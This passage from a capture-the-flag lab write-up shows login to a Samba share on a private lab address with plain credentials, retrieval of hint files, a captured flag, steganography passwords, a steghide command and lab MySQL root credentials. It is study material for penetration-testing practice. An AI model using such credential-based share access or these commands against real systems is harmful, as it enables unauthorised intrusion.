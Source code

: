 4. Connected to the confidential share


```bash
$ smbclient //192.168.74.132/confidential -U admin
Password: angel
smb: \> ls
  .                                   D        0  Jul 01 12:00 .
  ..                                  D        0  Jul 01 12:00 ..
  congratulations.txt                 A      342  Jul 01 12:00 congratulations.txt
  mysql_hint.txt                      A      156  Jul 01 12:00 mysql_hint.txt
  privesc_hint.txt                    A      342  Jul 01 12:00 privesc_hint.txt

smb: \> get congratulations.txt
smb: \> get mysql_hint.txt
smb: \> get privesc_hint.txt
smb: \> exit
```

5. Examined the confidential share content


```bash
$ cat congratulations.txt
Congratulations on accessing the confidential Samba share!
FLAG{Samba_Access_Achieved}

NEXT CHALLENGE: Steganography
Look at the images in /opt/challenges/stego/
The passwords to extract hidden data are: stego123, stego456

Command to extract: steghide extract -sf image1.jpg -p stego123

$ cat mysql_hint.txt
Remember the MySQL credentials from the FTP server?
Username: root
Password: pentest123

You will need them after completing the steganography challenge.

$ cat privesc_hint.txt
FINAL CHALLENGE: Privilege Escalatio

Detailed hints are in /home/victim/.privesc_hints.txt
```

**Findings:**

- Third flag captured: `FLAG{Samba_Access_Achieved}`
- Steganography challenge location and passwords discovered
- Confirmation of MySQL credentials
- Initial privilege escalation hints discovered

![[Pasted image 20250416112510.png]]
![[Pasted image 20250416112636.png]]

